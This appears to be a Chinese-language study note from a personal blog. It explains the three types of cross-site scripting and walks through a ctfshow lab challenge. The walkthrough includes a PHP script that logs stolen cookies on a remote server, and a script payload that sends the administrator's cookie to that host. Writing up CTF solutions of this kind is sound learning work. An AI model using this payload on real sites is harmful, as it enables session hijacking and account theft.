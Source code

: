 ```yaml
---
title: XSS
description: XSS笔记
tags:
  - CTF
  - WEB
categories:
  - 笔记
cover: 'https://tuchuang.voooe.cn/images/2024/05/15/_202405151024302.jpg'
abbrlink: XSS
date: 2024-05-16 09:40:00
---
```

> XSS的本质是一种高级钓鱼手法。
## 认识XSS
XSS (Cross Site Scripting) 攻击全称跨站脚本攻击，是为不和层叠样式表 (Cascading Style Sheets, CSS) 的缩写混淆，故将跨站脚本攻击缩写为 XSS。

XSS 是一种经常出现在 Web 应用中的计算机安全漏洞，它允许恶意 Web 用户将代码植入到提供给其它用户使用的页面中。

在XSS攻击中，一般有三个角色参与：攻击者、目标服务器、受害者的浏览器。

原理：将恶意的 script 脚本插入进 html/css/js 文件当中。
![](https://s2.loli.net/2024/05/16/qZwLKH4DnGfRAxv.jpg)

### 反射型XSS
反射型XSS，又称非持久型XSS。
之所以称为反射型XSS，是因为这种攻击方式的注入代码是从目标服务器通过错误信息、搜索结果等等方式“反射”回来的：发出请求时，XSS代码出现在URL中，作为输入提交到服务器端，服务器端解析后响应，XSS代码随响应内容一起传回给浏览器，最后浏览器解析执行XSS代码。这个过程像一次反射，故叫反射型XSS。 
而称为非持久型XSS，则是因为这种攻击方式具有一次性，由于代码注入的是一个动态产生的页面而不是永久的页面，因此这种攻击方式只在点击链接的时候才产生作用。

特点：
① 不经过服务器存储，直接通过 HTTP 的 GET 和 POST 请求就能完成一次攻击，拿到用户隐私数据；
②攻击者需要诱骗点击；
③反馈率低，所以较难发现和响应修复；
④盗取用户敏感保密信息。



### 存储型XSS
存储型XSS，又称持久型XSS。
他和反射型XSS最大的不同就是，攻击脚本将被永久地存放在目标服务器端（数据库，内存，文件系统等），下次请求目标页面时不用再提交XSS代码。
一般存在于 Form 表单提交等交互功能，如发帖留言，提交文本信息等，多见于论坛。黑客利用的 XSS 漏洞，将内容经正常功能提交进入数据库持久保存，当前端页面获得后端从数据库中读出的注入代码时，恰好将其渲染执行。
特点：
①持久性，植入在数据库中；
②危害面广，甚至可以让用户机器变成 DDoS 攻击的肉鸡；
③ 盗取用户敏感私密信息。

### DOM型XSS
DOM型XSS 是基于文档对象模型 Document Objeet Model，DOM)的一种漏洞。对于img，input等这种类型的 DOM 节点标签，DOM型XSS就可以利用其进行攻击
DOM 型 XSS 全部都是由前端进行触发的。

## 反射型XSS的利用
### 例题：ctfshow web入门 316
![](https://s2.loli.net/2024/05/16/6gCEYtPqxIbyzpm.png)
输入什么就返回什么，尝试执行js代码`<script>alert(1)</script>`
![](https://s2.loli.net/2024/05/16/UwjXucIGtZBNbrv.png)
成功返回了弹窗
> 本题的flag在管理员的cookie中，机器人会定时自动点击生成的链接

创建一个自动接收脚本a.php在vps上
```php
<?php
$cookie = $_GET['cookie'];
$log = fopen("cookie.txt", "a");
fwrite($log, $cookie . "\n");
fclose($log);
?>
```
生成Xss代码链接,用于获取管理员cookie

`<script>document.location.href='http://ip:port/a.php?cookie='+document.cookie</script>`

python3 -m http.server监听即可拿到cookie

![](https://s2.loli.net/2024/05/16/tjV7pHcQsOndNZC.png)











## 未完待续
参考：
[从0到1完全掌握 XSS](https://www.freebuf.com/articles/web/334662.html)
[web攻防之XSS攻击详解——XSS简介与类型](https://zhuanlan.zhihu.com/p/342603075)
